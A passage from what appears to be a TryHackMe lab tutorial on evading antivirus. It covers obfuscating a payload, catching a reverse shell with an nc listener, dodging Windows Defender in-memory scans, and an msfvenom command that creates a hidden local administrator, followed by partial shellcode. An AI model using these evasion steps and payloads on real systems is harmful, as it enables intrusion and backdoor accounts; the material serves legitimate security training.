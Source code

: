 Let's go to the settings tab and select our payload. Once selected, hit the "+" button to add settings to your payload. This should create a rule named "true". Make sure to enable compression as well:

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/857e5540e14f4ebf743fbd4d2f8ee503.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/857e5540e14f4ebf743fbd4d2f8ee503.png)

We will now edit the "true" rule and set it to the Maximum preset:

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/96946f1aff585a91e78408b96e446ea4.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/96946f1aff585a91e78408b96e446ea4.png)

Finally, we will go to the "Protect!" tab and hit "Protect":

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/e0e3ca97245641d3954f26fa986aae87.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/e0e3ca97245641d3954f26fa986aae87.png)

The new payload should be ready and hopefully won't trigger any alarms when uploaded to the THM Antivirus Checker! (shortcut available on your desktop). In fact, if you execute your payload and set up an **`nc`** listener, you should be able to get a shell back:

AttackBox

```
user@attackbox$ nc -lvp 7478
```

So far, so good, but remember we talked about AVs doing in-memory scanning? If you try running a command on your reverse shell, the AV will notice your shell and kill it. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell generated with msfvenom, CreateProcess() will be invoked and detected.

# So what do we do now?

While defeating in-memory scanning is out of the scope of this room, there are a couple of simple things you can do to avoid detection:

- **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.
- **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with **`msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp`** and see what happens.
- 

```bash
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```

```bash
0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
```